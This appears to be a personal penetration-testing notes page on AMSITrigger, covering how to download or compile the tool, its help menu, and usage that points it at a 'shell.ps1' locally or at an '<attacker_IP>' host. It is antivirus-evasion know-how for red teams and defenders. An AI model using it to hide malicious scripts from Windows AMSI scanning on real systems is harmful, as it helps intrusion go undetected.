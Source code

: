 # AMSITrigger

## 01 - Setup

### 1.1 - Download Pre-compiled Binary

```
PS C:\Users\userware\Tools\> mkdir AMSITrigger

PS C:\Users\userware\Tools\AMSITrigger> Invoke-WebRequest -Uri https://github.com/RythmStick/AMSITrigger/releases/download/v3/AmsiTrigger_x64.exe -UseBasicParsing -OutFile AMSITrigger.exe
```

### 1.2 - Compile

Install a targeting pack from this [link](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481). We'll be repeating the steps just like we compiled in [[ThreatCheck#^1f5090|ThreatCheck]].

```
PS C:\Users\userware\Tools> git clone https://github.com/RythmStick/AMSITrigger.git
cd AMSITrigger\AMSITrigger\
copy Program.cs Program.cs.bak
dotnet new console --force
del Program.cs; move Program.cs.bak Program.cs
dotnet add package Costura.Fody --version 4.1.0
dotnet add package Fody --version 6.0.0
dotnet add package NDesk.Options --version 0.2.1
dotnet publish -r win-x64 -c Release -p:PublishSingleFile=true -p:TargetFrameworkVersion=v4.8.1 --sc false
```

![[AMSITrigger AssemblyInfo Comment Lines.png]]

TODO: figure it out about the MSBuild errors

```
PS C:\Users\userware\Tools\AMSITrigger\AMSITrigger> dotnet publish -r win-x64 -c Release -p:PublishSingleFile=true --sc false
```

## 02 - Help Menu

```
PS C:\Users\userware\Tools\AMSITrigger> .\AMSITrigger.exe -h
-i, --inputfile=VALUE       Powershell filename
-u, --url=VALUE             URL eg. https://10.1.1.1/Invoke-NinjaCopy.ps1
-f, --format=VALUE          Output Format:
                              1 - Only show Triggers
                              2 - Show Triggers with Line numbers
                              3 - Show Triggers inline with code
                              4 - Show AMSI calls (xmas tree mode)
-d, --debug                 Show Debug Info
-m, --maxsiglength=VALUE    Maximum signature Length to cater for,
                              default=2048
-c, --chunksize=VALUE       Chunk size to send to AMSIScanBuffer,
                              default=4096
-h, -?, --help              Show Help
```

## 03 - Usage

```
PS C:\Users\userware\Tools\AMSITrigger> .\AMSITrigger.exe -i /path/to/shell.ps1 -f 3

PS C:\Users\userware\Tools\AMSITrigger> .\AMSITrigger.exe -u http[s]://<attacker_IP>/shell.ps1 -f 3
```

---
## References

### Github

- [AMSITrigger](https://github.com/RythmStick/AMSITrigger)

### Hacking Articles

- [Hacking Articles: A Detailed Guide on AMSI Bypass](https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/)